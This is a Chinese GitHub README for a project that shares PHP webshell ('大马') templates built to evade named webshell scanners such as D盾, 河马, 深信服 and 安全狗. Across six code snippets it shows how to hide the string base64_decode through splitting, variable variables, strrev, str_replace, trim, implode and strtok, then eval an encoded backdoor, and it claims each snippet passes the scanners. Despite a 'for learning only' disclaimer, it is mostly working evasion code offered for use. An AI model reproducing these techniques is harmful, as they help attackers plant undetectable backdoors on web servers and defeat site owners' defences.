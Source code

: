 # S9MF-php-webshell-bypass
为方便WAF入库的项目 | 分享PHP免杀大马 | 菜是原罪 | 多姿势(假的就一个) 

## 前言
- - -
webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。又分大马和小马，大马就是功能比较多的，而小马更像一句话，本文介绍的是免杀PHP大马。  
![1](https://ws1.sinaimg.cn/large/006VEsyOgy1g0qmh8h5snj30aa096dgr.jpg)  

## 声明
* 项目脚本仅供学习交流请勿用于非法用途。
* 本文测试的免杀脚本，并不永久免杀，只要一入特征库，就凉了，更多的是思路。

## WAF
- - -
测试用的WAF

WAF |  下载
------------ |  ----------
 D盾_Web查杀  | http://www.d99net.net/down/d_safe_2.1.4.4.zip
 河马webshell查杀 |  http://dl.shellpub.com/hm-ui/latest/HmSetup.zip?version=1.5.0
深信服WebShellKillerTool | http://edr.sangfor.com.cn/tool/WebShellKillerTool.zip
网站安全狗网马查杀 | http://download.safedog.cn/download/software/safedogwzApache.exe
OpenRASP WEBDIR+检测引擎 | https://scanner.baidu.com

![2](https://ws1.sinaimg.cn/large/006VEsyOgy1g0qnshf8voj31400idwhz.jpg)
![3](https://ws1.sinaimg.cn/large/006VEsyOgy1g0qnsiq1zej314d0ijabt.jpg)
![4](https://ws1.sinaimg.cn/large/006VEsyOgy1g0qnw2hblng303c0370td.gif)

## Test
- - -
首先，我们的思路是以这段代码开始：
```php
<?php
$code = '大马源码base64加密';
eval(base64_decode($code));
?>
```
动图:
![5](https://ws1.sinaimg.cn/large/006VEsyOgy1g0qwjej1y0g30qd0hednu.gif)

waf查杀:  
![6](https://ws1.sinaimg.cn/large/006VEsyOgy1g0qwqzgr9dj30lg06omxe.jpg)

分割函数:
我们把base64_decode大小写分割成多个变量，再合并，并赋值给其他变量。
```php
<?php
$a = 'bAsE';
$b = '64_dEcODE';
$c = $a.$b;
$d = $c('code');
eval($d);
```

再用WAF查杀:  
D盾_Web查杀  
![7](https://ws1.sinaimg.cn/large/006VEsyOgy1g0r33tc306j30ng09vmyf.jpg)

河马webshell查杀  
![8](https://ws1.sinaimg.cn/large/006VEsyOgy1g0r362vy4bj30ly07l3yk.jpg)

深信服WebShellKillerTool  
![9](https://ws1.sinaimg.cn/large/006VEsyOgy1g0r36un7ijj30kk071t9r.jpg)

网站安全狗网马查杀  
![10](https://ws1.sinaimg.cn/large/006VEsyOgy1g0r384ykhrj30p006ngly.jpg)

至此绕过以上4个WAF查杀，但是上面那个例子虽然成功绕过了，但是看起来很简单，所以在写一个。  

首先我们来了解php中`$$`一个引用变量。  

```php
<?php
$a = 's9mf'; 
$b = $a;    
$c = "b";    
echo $$c;  
```
输出:  
![11](https://ws1.sinaimg.cn/large/006VEsyOgy1g0r4dm4xxej307y05kt8p.jpg)

利用`$$`和`""`双引号解释变量的特性，我们这样写  
### code1
```php
<?php
$a = 'bAsE';
$b = '64_dEcODE';
$fuck = $a.$b;
$d = "fuck";
$e = $$d('code');  // base64_decode('code')
eval($e); 
```
这个`payload`也是绕过以上4个WAF查杀。

## 更多免杀payload
 - - -
 >以下的code均可以绕过绕过安全狗、D盾和深信服的客户端Webshell查杀和河马正式版的查杀。  
 
 ### strrev()函数
 * strrev()函数反转字符串。  
 ```php
 <?php
echo strrev("s9mf");
 ```
 输出:  
 ![12](https://ws1.sinaimg.cn/large/006VEsyOgy1g0r4x9he8mj30cz056wez.jpg)  
 利用反转字符串的特性。  
 ### code2
 ```php
 <?php
$a = strrev('EdOcEd_46eSaB');  // base64_decode
$b= $a('code');
eval($b);
 ```
### str_replace()函数
* str_replace()函数替换字符串中的一些字符(区分大小写)
```
<?php
echo str_replace("ok","","emokmmokmokm"); 
```
输出:  
![13](https://ws1.sinaimg.cn/large/006VEsyOgy1g0r5hzfjzzj30fw05pmxr.jpg)  
### code3
```php
<?php
$c = str_replace("s9mf", "", "Bs9mfaSE6s9mf4_Decs9mfOdE"); // base64_decode
$a = $c('code');
eval($b=&$a); 
?>
```
### ltrim()和trim()函数
* ltrim() - 移除字符串左侧的空白字符或其他预定义字符
* trim() - 移除字符串两侧的空白字符或其他预定义字符
```php
<?php
echo ltrim('mmmNice','m')."<br/>";
echo trim('okiii','i');
```
输出:  
![14](https://ws1.sinaimg.cn/large/006VEsyOgy1g0royxev5aj309u061t95.jpg)  

依据这个特性。
### code4
```php
<?php
$a = ltrim('mmmbAsE64_D','m');
$b = trim('ecODeiii','i');
$base = $a.$b;
$c = $base('code');
eval($d=&$c);
```

### implode()函数
* implode() 函数返回由数组元素组合成的字符串。
```
<?php
$arr = array('ki',' me');
echo implode("ss",$arr);
```
输出:  
![15](https://ws1.sinaimg.cn/large/006VEsyOgy1g0rq5q5tq8j30b00633z0.jpg)  

### code5
```php
<?php
$arr = array('base','code');
$a = implode("64_de",$arr);
$b = $a('code');
$c = "\n";
eval($c.=$b);
?>
```

### strtok()函数
* strtok() 函数把字符串分割为更小的字符串（标记。
```php
<?php
$string = "//Hello//dd";
echo strtok($string, "/");  
```
输出:  
![16](https://ws1.sinaimg.cn/large/006VEsyOgy1g0rqy0pa7tj30b105y74r.jpg)

### code6
```php
<?php
$string = "//base64_decode//FuuF";
$a = strtok($string, "/");  
$b = $a('code');
eval($d=&$b);
```

